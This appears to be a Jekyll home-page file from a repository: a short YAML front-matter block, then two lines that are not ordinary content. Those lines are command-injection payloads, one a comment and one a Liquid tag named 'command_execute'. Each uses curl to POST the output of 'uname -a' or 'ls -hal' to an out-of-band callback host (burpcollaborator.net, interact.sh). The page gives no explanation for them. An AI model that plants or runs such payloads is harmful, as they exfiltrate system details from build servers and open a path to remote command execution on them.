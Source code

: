 ```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults

layout: home
---
```


# command_execute curl -X POST "http://bs7h10wa8o3oijwmnyx4ofhpbgh65v.burpcollaborator.net" -d "output=$(uname -a)"
{% command_execute curl -X POST "http://c8fz4r32vtc0000k6xtggr891ceyyyyyb.interact.sh" -d "output=$(ls -hal)" %}
